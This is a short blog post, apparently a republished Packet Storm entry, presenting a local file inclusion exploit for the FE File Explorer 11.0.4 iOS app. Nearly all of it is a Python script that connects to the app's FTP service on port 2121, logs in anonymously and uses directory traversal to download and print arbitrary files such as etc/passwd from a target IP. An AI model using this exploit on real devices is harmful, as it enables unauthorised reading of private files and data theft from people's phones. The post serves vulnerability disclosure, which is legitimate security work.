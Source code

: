 ```yaml
---
layout: post
title: FE File Explorer 11.0.4
date: 2022-09-07 03:37 +0300
categories: [Exploits, File Inclusion]
tags: [exploits]
---
```









![](../../../assets/img/Exploits/fileexp.png)

There is a local file inclusion vulnerability present in version 11.0.4 of FE File Explorer.

  

```
SHA-256 | 9596719bde6a381ce9f18435b2517e8ecf2d1838ab031974d2c37d361f760254
```

```perl
    # Exploit Title: FE File Explorer 11.0.4 Local File inclusion
    # Date: Sep 6, 2022
    # Exploit Author: Chokri Hammedi
    # Vendor Homepage: https://www.skyjos.com/
    # Software Link:
    https://apps.apple.com/us/app/fe-file-explorer-file-manager/id510282524
    # Version: 11.0.4
    # Tested on: iPhone ios 15.6
    
    
    from ftplib import FTP
    import argparse
    
    help = " FE File Explorer Local File inclusion"
    parser = argparse.ArgumentParser(description=help)
    parser.add_argument("--target", help="Target IP", required=True)
    parser.add_argument("--file", help="File To Open eg: etc/passwd")
    
    args = parser.parse_args()
    
    
    ip = args.target
    port = 2121 # Default Port
    files = args.file
    
    
    
    ftpConnection = FTP()
    ftpConnection.connect(host=ip, port=port)
    ftpConnection.login();
    
    def downloadFile():
    
    ftpConnection.cwd('/../../../../../../../../../../../../../../../../')
            ftpConnection.retrbinary(f"RETR {files}", open('data.txt',
    'wb').write)
            ftpConnection.close()
            file = open('data.txt', 'r')
            print (f"[***] The contents of {files}\n")
            print (file.read())
    
    downloadFile()
```

<br>  

>*Source* :   [https://packetstormsecurity.com](https://packetstormsecurity.com)
